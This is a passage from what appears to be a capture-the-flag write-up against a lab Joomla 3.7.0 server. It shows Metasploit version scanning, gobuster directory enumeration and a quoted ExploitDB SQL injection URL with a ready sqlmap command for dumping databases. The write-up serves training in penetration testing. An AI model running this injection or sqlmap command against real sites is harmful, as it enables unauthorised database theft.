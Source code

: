 Let's check if we can get anything on metasploit:
```shell-session
$ sudo msfconsole -q
msf6 > search joomla
...
10  auxiliary/scanner/http/joomla_version
...

msf6 > use 10
msf6 auxiliary(scanner/http/joomla_version) > setg RHOSTS 10.10.57.40
RHOSTS => 10.10.57.40
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> What is the Joomla version?
> 
> Answer: `3.7.0`

A quick search on ExploitDB for Joomla 3.7 shows a nice exploit that we can use: https://www.exploit-db.com/exploits/42033

```txt

URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Let's also do some directory enumeration while we're at it:
```shell-session
$ gobuster dir -u http://10.10.57.40/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -o enum_gobuster.txt
/media                (Status: 301) [Size: 233] [--> http://10.10.57.40/media/]
/templates            (Status: 301) [Size: 237] [--> http://10.10.57.40/templates/]
/images               (Status: 301) [Size: 234] [--> http://10.10.57.40/images/]
/modules              (Status: 301) [Size: 235] [--> http://10.10.57.40/modules/]
/bin                  (Status: 301) [Size: 231] [--> http://10.10.57.40/bin/]
/plugins              (Status: 301) [Size: 235] [--> http://10.10.57.40/plugins/]
/includes             (Status: 301) [Size: 236] [--> http://10.10.57.40/includes/]
/language             (Status: 301) [Size: 236] [--> http://10.10.57.40/language/]
/components           (Status: 301) [Size: 238] [--> http://10.10.57.40/components/]
/cache                (Status: 301) [Size: 233] [--> http://10.10.57.40/cache/]
/libraries            (Status: 301) [Size: 237] [--> http://10.10.57.40/libraries/]
/tmp                  (Status: 301) [Size: 231] [--> http://10.10.57.40/tmp/]
/layouts              (Status: 301) [Size: 235] [--> http://10.10.57.40/layouts/]
/administrator        (Status: 301) [Size: 241] [--> http://10.10.57.40/administrator/]
/cli                  (Status: 301) [Size: 231] [--> http://10.10.57.40/cli/]
```
Visiting the `/administrator` path, we're taken to the following page: